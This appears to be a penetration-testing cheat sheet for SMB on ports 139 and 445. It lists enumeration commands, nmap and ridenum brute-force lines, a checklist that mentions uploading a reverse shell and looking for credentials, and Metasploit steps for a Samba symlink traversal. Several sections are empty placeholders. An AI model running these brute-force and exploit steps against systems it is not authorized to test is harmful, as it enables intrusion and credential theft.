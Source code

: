 # 139/445 - SMB

## Enumeration

### searchsploit

```bash
searchsploit <service info>  # Use searchsploit on nmap Service output details
```

### smbmap

```bash
// Some code
```

### smbclient

```bash
smbclient -L //<IP>  # List out available shares
smbclient //<IP>/<SHARE>  # Connect to an available share
```

### nbtscan

```bash
// Some code
```

### enum4linux

```bash
// Some code
```

## Brute Force

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce eachusernam
```

## Exploitation Check

* [ ] Enumerate and download any interesting files ideally looking for credentials or other information relating to other services.
* [ ] Can you login via SMB and put files on the system?
  * [ ] If so, is there a web interface where you can access the files?
    * [ ] If so, then you may be able to upload a reverse shell.
  * [ ] If so, can you use Metasploit to create symbolic link to the root filesystem?

## Exploitation

### Metasploit

```bash
use auxiliary/admin/smb/samba_symlink_traversal
set rhost
set smbshare <SHARE>
exploit
```

Then back in `smbclient` we can `cd` into the `rootfs` that was created.
